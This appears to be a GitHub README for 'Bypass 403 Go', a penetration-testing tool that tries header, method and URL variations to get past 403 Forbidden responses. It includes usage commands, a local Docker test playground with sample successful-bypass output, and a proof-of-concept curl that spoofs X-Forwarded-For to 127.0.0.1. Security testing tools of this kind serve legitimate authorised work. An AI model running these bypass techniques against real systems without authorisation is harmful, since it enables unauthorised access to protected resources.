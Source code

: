 # Bypass 403 Go

## Description

Bypass 403 Go is a tool designed to bypass 403 Forbidden responses for specific endpoints. It allows users to make HTTP requests to specified URLs and includes options for adding custom headers to the requests.

### Installation

```bash
go install github.com/elvisgraho/bypass-403-go@latest
```

### Flags

| Option      | Description                                    |
|-------------|------------------------------------------------|
| -**u**          | Target URL (mandatory), e.g., `-u https://example.com/admin` |
| -**h**          | User header, e.g., `-h 'Cookie: lol'`          |
| -**hfile**      | File containing user headers, with one header per line |
| -**fs**         | Suppresses output with the desired size, `-fs 42,205` |
| -**fc**         | Suppresses output with the desired response code, `-fc 307` |
| -**skipUrl**    | Skip attacks that change url.                  |
| -**skipMethod** | Skip attacks that change request method.       |
| -**show400**    | Show all 400 errors.                           |
| -**t**          | Timeout before making a request, `-t 50ms`     |

### Examples

```sh
bypass-403-go -u https://example.com/secret -h 'Cookie: lol'
bypass-403-go -u https://example.com/secret -hfile headers.txt
bypass-403-go -u https://example.com/secret -hfile headers.txt -fs 42
```

### Testing with Playground (local)

```sh
docker build -t 403-playground ./playground
docker run -p 8080:8080 403-playground
```

Once the playground is running, you can test the tool using commands similar to the following:

```sh
go run main.go -u "http://localhost:8080/admin" -h "Cookie: hello"
```

Playground output

```console
$ go run .\main.go -u "http://localhost:8080/admin" -h "Cookie: hello"
2024/03/15 16:03:38.692321 Started bypass-403-go
PUT <http://localhost:8080/admin> 200 OK. Length: 44.
GET <http://localhost:8080/admin> 200 OK. Length: 44. Cluster-Client-IP: localhost
GET <http://localhost:8080/admin> 200 OK. Length: 44. X-Forwarded-Port: 8080
2024/03/15 16:03:41.889985 Finished bypass-403-go
```

### Create POC curl

```sh
curl -X GET \
  -H "X-Forwarded-For: 127.0.0.1:80" \
  -i https://target.com/secret
```
